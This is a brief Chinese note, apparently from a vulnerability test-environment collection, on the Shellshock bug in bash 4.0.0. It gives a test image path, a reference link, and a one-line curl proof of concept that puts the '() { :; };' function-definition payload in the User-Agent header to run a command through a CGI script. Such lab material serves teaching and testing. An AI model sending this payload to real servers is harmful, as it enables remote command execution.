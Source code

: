 ### shellshock 漏洞

测试镜像

* src/bash/4.0.0/

参考链接

* [shellshock原理介绍](https://introspelliam.github.io/2017/09/09/shellshock%E5%8E%9F%E7%90%86%E4%BB%8B%E7%BB%8D/)

Poc

```
curl -k -A "() { :; }; echo; /bin/ls -lh; " 127.0.0.1/cgi-bin/test.sh
```


